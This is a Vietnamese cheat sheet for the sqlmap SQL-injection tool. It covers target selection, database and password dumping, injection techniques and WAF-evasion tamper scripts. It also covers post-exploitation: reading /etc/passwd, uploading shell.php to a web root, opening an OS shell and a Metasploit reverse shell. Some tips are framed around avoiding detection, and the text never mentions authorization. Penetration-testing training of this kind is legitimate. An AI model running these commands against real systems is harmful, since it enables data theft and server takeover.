

# sqlmap Cheat Sheet

<!--more-->

sqlmap là công cụ dòng lệnh cho phép kiểm tra các lỗ hổng SQL injection trên nhiều loại hệ quản trị cơ sở dữ liệu (DBMS) khác nhau như MySQL, Oracle, PostgreSQL, Microsoft SQL Server, v.v.

---

## 1. Quy trình khai thác tiêu chuẩn (Workflow)

Hiểu các bước từ dò quét đến chiếm quyền điều khiển cơ sở dữ liệu.

---

## 2. Các lệnh cơ bản & Xác định mục tiêu

Đây là bước đầu tiên để sqlmap biết cần tấn công vào đâu.

| Lệnh | Ý nghĩa |
| :--- | :--- |
| `-u "URL"` | Kiểm tra một URL cụ thể. |
| `-r file.txt` | Đọc request từ một file (thường xuất từ Burp Suite). |
| `-g "dork"` | Tìm kiếm mục tiêu thông qua Google Dork. |
| `--data="data"` | Kiểm tra các tham số trong phương thức POST. |
| `--cookie="jsessionid=..."` | Sử dụng Cookie để xác thực khi quét. |
| `--batch` | Tự động chọn các thiết lập mặc định (không hỏi người dùng). |
| `--flush-session` | Xóa bộ nhớ đệm (cache) của các lần quét trước đó. |

---

## 3. Khai thác thông tin (Enumeration)

Sau khi xác định được lỗ hổng, dùng các lệnh này để lấy dữ liệu.

### Cấu trúc phân cấp lấy dữ liệu
=== "Cơ sở dữ liệu"
    - `--dbs`: Liệt kê tất cả các database.
    - `--current-db`: Xem tên database hiện tại đang được sử dụng.
=== "Bảng (Tables)"
    - `-D <db_name> --tables`: Liệt kê các bảng trong database chỉ định.
=== "Cột (Columns)"
    - `-D <db_name> -T <table_name> --columns`: Liệt kê các cột trong bảng.
=== "Dữ liệu (Dump)"
    - `-D <db_name> -T <table_name> -C <col1,col2> --dump`: Trích xuất dữ liệu.
    - `--dump-all`: Trích xuất toàn bộ dữ liệu trong database (Cực kỳ chậm và dễ bị phát hiện).

### Thông tin hệ thống
- `--users`: Liệt kê các người dùng của DBMS.
- `--passwords`: Liệt kê và thử bẻ khóa mật khẩu người dùng DBMS.
- `--privileges`: Kiểm tra quyền hạn của người dùng hiện tại.
- `--is-dba`: Kiểm tra xem người dùng hiện tại có phải quyền Admin (DBA) không.

---

## 4. Kỹ thuật Injection (Techniques)

sqlmap hỗ trợ 6 kỹ thuật chính. Bạn có thể chỉ định bằng tham số `--technique`.

| Ký hiệu | Tên kỹ thuật | Giải thích |
| :---: | :--- | :--- |
| **B** | Boolean-based blind | Dựa trên câu hỏi Đúng/Sai trong phản hồi của trang web. |
| **E** | Error-based | Dựa trên thông báo lỗi chi tiết của CSDL trả về. |
| **U** | Union query-based | Sử dụng toán tử UNION để gộp kết quả vào dữ liệu hiển thị. |
| **S** | Stacked queries | Chạy nhiều câu lệnh SQL cùng lúc (dùng dấu `;`). |
| **T** | Time-based blind | Dựa trên độ trễ thời gian phản hồi (sleep). |
| **Q** | Inline queries | Nhúng câu truy vấn vào trong một truy vấn khác. |

---

## 5. Tùy chỉnh Request (Cấu hình nâng cao)

Để vượt qua WAF/IDS hoặc giả lập trình duyệt người dùng.

### Giả lập Header
- `--user-agent="Mô tả trình duyệt"`: Thay đổi User-Agent.
- `--random-agent`: Sử dụng ngẫu nhiên một User-Agent hợp lệ từ file dữ liệu.
- `--referer="URL"`: Giả lập nguồn trang dẫn tới (Referer).
- `--proxy="http://127.0.0.1:8080"`: Chạy qua proxy (ví dụ Burp Suite).

### Mức độ dò quét
!!! info "Càng cao càng mạnh nhưng càng dễ bị lộ"
    - `--level=1-5`: Mức độ kiểm tra (Level 3 sẽ kiểm tra cả Cookie, Level 5 kiểm tra cả Host/User-Agent). Mặc định là 1.
    - `--risk=1-3`: Mức độ rủi ro của câu lệnh SQL (Risk 3 sẽ thử cả các lệnh có khả năng gây hỏng dữ liệu như OR-based). Mặc định là 1.

---

## 6. Vượt qua WAF/IPS (Tamper Scripts)

sqlmap cung cấp các script "Tamper" để mã hóa câu lệnh SQL nhằm đánh lừa tường lửa.

**Cú pháp:** `--tamper="tên_script"`

| Tên Script | Công dụng |
| :--- | :--- |
| `space2comment` | Thay thế khoảng trắng bằng `/**/`. |
| `randomcase` | Ngẫu nhiên viết hoa/thường (ví dụ: `SeLeCt`). |
| `base64encode` | Mã hóa toàn bộ câu lệnh sang Base64. |
| `charencode` | Mã hóa URL các ký tự. |
| `apostrophemask` | Thay thế dấu nháy đơn `'` bằng mã hóa UTF-8. |

---

## 7. Khai thác hệ điều hành (Post-Exploitation)

Nếu người dùng CSDL có quyền cao (như `sa` hoặc `root`), bạn có thể can thiệp vào hệ thống tệp và lệnh của server.

??? details "Tương tác với File"
    - `--file-read="/etc/passwd"`: Đọc nội dung file trên server.
    - `--file-write="shell.php" --file-dest="/var/www/html/shell.php"`: Tải file lên server.

??? details "Tương tác với Hệ điều hành"
    - `--os-shell`: Cung cấp một shell tương tác để chạy lệnh hệ thống (CMD/Bash).
    - `--os-pwn`: Kết hợp với Metasploit để chiếm quyền điều khiển hoàn toàn (Reverse Shell).
    - `--os-cmd="whoami"`: Chạy một lệnh đơn lẻ.

---

## 8. Tối ưu hóa hiệu suất (Performance)

Để tăng tốc độ dò quét, đặc biệt là với các kỹ thuật Blind.

- `--threads=10`: Sử dụng nhiều luồng xử lý song song (Tối đa là 10).
- `-o`: Bật tất cả các tùy chọn tối ưu hóa.
- `--keep-alive`: Sử dụng kết nối HTTP(s) bền vững, giảm tải việc bắt tay kết nối lại.
- `--null-connection`: Lấy độ dài phản hồi mà không cần tải toàn bộ nội dung body.

---

## 9. Mẹo thực chiến (Pro Tips)

### Sử dụng file Request từ Burp Suite
Đây là cách chuyên nghiệp nhất để xử lý các request phức tạp (nhiều header, dữ liệu POST lồng nhau).
1. Chuột phải vào request trong Burp Suite -> **Save item**.
2. Chạy sqlmap: `sqlmap -r request.txt --batch`.

### Tấn công một tham số cụ thể
Nếu URL có nhiều tham số nhưng bạn chỉ muốn kiểm tra một cái để tránh bị block:
`sqlmap -u "http://site.com/id=1&type=2" -p id`

### Sử dụng dấu `*` để chỉ định điểm chèn
Nếu tham số nằm trong URL (SEO friendly URLs):
`sqlmap -u "http://site.com/user/1*/profile"` (sqlmap sẽ kiểm tra tại vị trí số 1).

---

## 10. Bảng tra cứu nhanh các thông số DBMS phổ biến

| DBMS | Default Port | Admin User |
| :--- | :--- | :--- |
| **MySQL** | 3306 | root |
| **MSSQL** | 1433 | sa |
| **Oracle** | 1521 | SYS, SYSTEM |
| **PostgreSQL**| 5432 | postgres |

---

!!! warning "Cảnh báo bảo mật"
    sqlmap có thể tạo ra hàng ngàn request trong thời gian ngắn. Điều này không chỉ gây chú ý cho các hệ thống giám sát (IDS/IPS) mà còn có thể làm treo cơ sở dữ liệu của mục tiêu. Hãy luôn kiểm tra với tham số `--delay` nếu cần sự bí mật.

!!! tip "Lời khuyên"
    Trước khi dùng sqlmap, hãy cố gắng hiểu cách câu lệnh SQL đó hoạt động thủ công. Công cụ chỉ giúp bạn nhanh hơn, nhưng kiến thức về SQL mới giúp bạn xử lý được những trường hợp khó mà công cụ bị kẹt.
